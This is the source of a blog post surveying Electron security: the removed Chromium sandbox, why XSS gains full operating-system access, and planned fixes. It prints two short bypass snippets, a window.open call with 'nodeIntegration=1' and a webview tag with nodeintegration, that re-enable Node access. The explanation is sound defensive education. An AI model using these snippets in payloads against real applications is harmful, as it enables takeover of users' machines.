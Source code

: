 ```yaml
---
author: dkerr
title: "As It Stands - Electron Security"
title-short: "Electron Security"
layout: default_post
categories:
  - Web
  - Electron
  - Security
summary: "A brief look at the current state of application security in Electron"
image: dkerr/assets/featured/electron.jpg
tags:
  - featured
---
```


Over the past few years, there's been an increasing demand for web applications to separate from the browser and become fully integrated desktop applications. Previously, the amount of time and effort required to convert an existing application was a major roadblock to developers and businesses. However, frameworks are starting to appear offering an easier route to build cross-platform desktop applications utilising web technologies.

Back in early 2014, the [Atom IDE](https://atom.io) was released by GitHub with much fanfare. What made Atom unique was how GitHub managed to develop this cross-platform desktop application using only web technologies. Under the hood of Atom, the open-source Electron framework was developed to allow Atom to look, feel and behave just like a desktop application.

Ever since Atom's release, Electron has been rapidly gaining popularity and is being used to build an [extensive variety](http://electron.atom.io/#built-on-electron) of desktop applications. Companies such as Facebook, Slack, Docker and Microsoft are using it to build applications from the eponymously named [Slack](https://slack.com/), a messaging client inspired by IRC, to [Kinematic](https://kitematic.com), a GUI used to visualise and manage docker containers.

<p style="text-align: center">
	<img src='{{ site.github.url }}/dkerr/assets/atom-electron-chromium.png' title="Atom stack" alt="Atom + Electron + Chromium stack" />
</p>

To allow web applications to run as desktop applications, Electron uses [Chromium](https://www.chromium.org/Home). Chromium is the open source foundation on which the Chrome web browser is based. Effectively, an Electron application is running inside a customised Chromium wrapper. Therefore, the security challenges an Electron application faces are almost identical to if it was running inside Chrome or any other web browser.

## Goodbye Sandbox

<p style="text-align: center">
	<img src='{{ site.github.url }}/dkerr/assets/chromium-sandbox.png' title="Chromum Sandbox" alt="Chromium sandbox" />
</p>

The [Chromium sandbox](https://www.chromium.org/developers/design-documents/sandbox) encapsulates processes inside a very restrictive environment. The only resources sandboxed processes can freely use are CPU cycles and memory. What processes can do is controlled by a well-defined policy, this prevents bugs or attacks from performing IO operations (e.g. reading / writing files) on the user's system.

To provide applications with desktop functionality, the Electron team modified Chromium to introduce a runtime to access native APIs as well as Node.js's built in and third-party modules. To do this the Chromium sandbox protection was disabled, meaning any application running inside Electron is given unfiltered access to the operating system.

<p style="text-align: center">
	<img src='{{ site.github.url }}/dkerr/assets/electron-sandbox.png' title="Electron Sandbox" alt="Electron sandbox" />
</p>

This is not a concern for a lot of Electron applications, especially those that don't pull in remote data and need extensive operating system privileges anyway (such as an IDE). However, this is a (potentially) serious and unnecessary security risk for applications that do pull in remote data, any successful XSS attack would give the attacker full control over the victim's machine!

It's worth stressing that a successful XSS attack within a sandboxed application is still a catastrophic event that can do untold damage. Even restricted to the sandbox, an attack can execute scripts to hijack user sessions, deface web sites, insert hostile content, redirect users and install malware. Nonetheless, unless they escape the sandbox the potential for damage stops at the browser level with the operating system left unharmed and only data explicitly shared with the browser at risk.

## False sense of security

To reduce the potential impact of an XSS attack on their application, many developers look at turning off node integration if it isn't needed. It's a sensible approach taken to [minimise the attack surface](https://www.owasp.org/index.php/Secure_Coding_Principles#Minimize_attack_surface_area) of the application, and [retain the least amount of privilege](https://www.owasp.org/index.php/Secure_Coding_Principles#Principle_of_Least_privilege) required to perform their business function.

Each Electron application has a [main process](http://electron.atom.io/docs/v0.36.8/tutorial/quick-start/#main-process) which executes a script that bootstraps the application. This script creates web pages by instantiating [BrowserWindow](https://github.com/atom/electron/blob/master/docs/api/browser-window.md) objects, each instance runs in their own process called the renderer process. In this script, it's possible to turn off node integration for each renderer process by setting a [`nodeIntegration` flag](https://github.com/atom/electron/blob/master/docs/api/browser-window.md#new-browserwindowoptions) to false inside the configuration provided when instantiating the BrowserWindow:

{% highlight js %}
new BrowserWindow({
    webPreferences: { nodeIntegration: false }
});
{% endhighlight %}

**However, exploits exist that allow the renderer processes to re-enable node integration despite it being explicitly turned off in the configuration!** This is something many developers are unaware of, any XSS attack has the potential to use these loopholes to re-enable node integration and gain full control over the victim's machine.

The first [workaround](https://github.com/atom/electron/issues/4026) uses Electron's [`window.open`](http://electron.atom.io/docs/v0.36.8/api/window-open/) function to spawn new child windows. The default behaviour for a new child window is to inherit the parent window's options. Currently, it's possible to override the options (including node integration) by setting them in the features string when calling `window.open`:

{% highlight js %}
window.open("www.example.com/evil.html", "", "nodeIntegration=1");
{% endhighlight %}

The code above spawns a new BrowserWindow object which displays the provided URL in a web page with node integration enabled. Any scripts ran within the given URL would have full access to all the Node APIs (e.g. [`FileSystem`](https://nodejs.org/api/fs.html#fs_file_system)) and any Electron modules [provided to renderer processes](http://electron.atom.io/docs/v0.36.8/#modules-for-the-renderer-process-web-page).

Another [workaround](https://github.com/atom/electron/issues/3943) involves inserting a [`webview`](http://electron.atom.io/docs/v0.36.8/api/web-view-tag/) element into the page. The webview element is a custom Electron DOM element used to embed guest content (such as web pages) inside an application. It's possible to add `nodeintegration` and `disablewebsecurity` attributes to the webview element to provide the guest content with access to the Node APIs as well as bypassing any [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS) restrictions enforced by the renderer process.

{% highlight html %}
<webview src="data:text/html,<script>var fs = require('fs')</script>" nodeintegration></webview>
{% endhighlight %}

The example above runs an inline script that imports Node's [`FileSystem`](https://nodejs.org/api/fs.html#fs_file_system) module, access is granted thanks to the `nodeintegration` attribute placed on the `webview` element. The guest content inside the webview has identical privileges to the `window.open` workaround.

## As it stands

Successful XSS attacks are already catastrophe events for web applications. Electron widens the consequences of these attacks since they are no longer constrained by the sandbox from accessing the victim's machine. This places even greater emphasis on developers to ensure that their applications are not vulnerable to XSS, as the layer of protection offered by the sandbox is no longer present.

One smaller concern is how up-to-date the Electron team will keep its version of Chromium. As security issues are [patched and published](http://googlechromereleases.blogspot.co.uk/2016/03/stable-channel-update.html) by the Chromium team, Electron will need to keep updated to stay protected against exploits. So far, the team have been keeping Electron closely in sync and [their plan](http://electron.atom.io/docs/v0.36.8/faq/electron-faq/#when-will-electron-upgrade-to-latest-chrome) is to be only one to two weeks behind. It's worth pointing out that there are a number of large companies who have a lot to lose if Electron ever fell too far behind, this makes it rather unlikely to happen but it's still a potential risk to monitor.

## Planned Changes

The good news is that Electron is a very active open source project, backed by a major web player ([GitHub](https://www.github.com)) and a lot of companies have built their products using it. As a result, the workarounds mentioned above (as well as other issues) are already being addressed thanks to contributions from a number of interested parties.

Once those workarounds have been patched, Electron applications should be a lot more resilient against XSS attacks re-enabling node integration. It's worth pointing out that there's an [open discussion](https://github.com/atom/electron/issues/1753) around Electron's security model on GitHub, so further changes and improvements are likely to be made once this discussion is finalised.

One notable contribution that's underway is the return of sandbox protection for any Electron applications that don't need node integration. This work is being undertaken by the developers of [Brave](https://www.brave.com/), a recently-announced web browser which aims to block ads and trackers to protect user's privacy and enhance browsing speed. They've been incredibly open about [their plan](https://twitter.com/BrendanEich/status/696610645693730816) which is to contribute their progress back to the community, once the work on their forked version of Electron is finished.

<p style="text-align: center">
	<img src='{{ site.github.url }}/dkerr/assets/brave-sandbox.png' title="Brave Sandbox" alt="Brave sandbox" />
</p>

They're using Electron to wrap the webpage content shown by their browser, this means they're not in control of the content being shown and so are far more vulnerable to attacks. The content they are showing needs no node or desktop integration, so the loss of this functionality caused by re-enabling the sandbox protection isn't an issue to them.

## Conclusion

To summarise, Electron currently has its fair share of security issues that complicate the process of building secure applications. The removal of the sandbox protection in return for desktop integration removes an important [layer of defence](https://www.owasp.org/index.php/Defense_in_depth) against XSS attacks. Various workarounds also exist that circumvent turning node integration off in the event of an XSS attack. Fortunately, due to the framework's popularity and active community the Electron team are already making good progress to resolving these issues.

With that said, there's still a lot of work to be done. One major goal should be a more secure way for applications that do need some node and desktop integration to interact with the operating system. At the moment however, there's no clear path forward on how that would be achieved.
